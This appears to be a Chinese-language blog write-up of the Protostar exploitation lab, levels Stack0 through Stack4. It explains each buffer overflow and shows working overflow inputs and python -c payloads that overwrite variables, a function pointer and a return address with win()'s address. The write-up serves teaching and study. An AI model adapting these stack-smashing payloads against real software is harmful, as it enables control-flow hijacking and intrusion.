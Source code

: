 ```yaml
---
layout: post
title: Protostar WriteUp
catagories: [ctf-execrise]
tags: [ctf, writeup, protostar]
---
```


> 堆、栈、格式化字符串漏洞利用学习


##Stack0

`gets()`函数不检查输入长度是否已溢出，所以输入超过buffer的长度，自然会覆盖到栈上的其它变量，
而`Modified`变量是紧跟着`buffer[]`的，因此被改写。

```
$ ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have changed the 'modified' variable
$ 
```

##Stack1

这一题要求modified的变量值为`0x61626364`. 因为数据是小端表示的，因此传给modifed的字符串应该是`"dcba"`.

```
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
$ 
```

##Stack2

因为`os.environ`改过的环境变量只在这个进程内部有效，进程外部无效，但其子进程是继承的父进程的环境变量，所以可以用`subprocess.Popen`来运行stack2

```python
import os
import subprocess
os.environ["GREENIE"]="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + "\x0a\x0d\x0a\x0d"
#print os.environ["GREENIE"]

cmd = "/opt/protostar/bin/stack2"
subprocess.Popen(cmd, close_fds=True, stderr=subprocess.PIPE, shell=True)
```

```
$ python ss.py
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA


$ you have correctly modified the variable
```

##Stack3

`objdump -d stack3`，拿到win()的地址`0x08048424`

构造输入：

```
$ python -c "print 'A'*64 + '\x24\x84\x04\x08'"|./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
$ 
```

##Stack4

拿到win()的地址`080483f4`

因为有对齐，原来的栈顶`0xbffffc48`变成了`0xbffffc40`

eip在ebp的下方

因此，应填充的padd为64+8+4,下接win的地址

```python
python -c "print 'A'*64 + 'B'*8 +'C'*4 + '\xf4\x83\x04\x08'"
```

```
$  python -c "print 'A'*64 + 'B'*8 +'C'*4 + '\xf4\x83\x04\x08'"|./stack4
code flow successfully changed
Segmentation fault
```

##Stack5
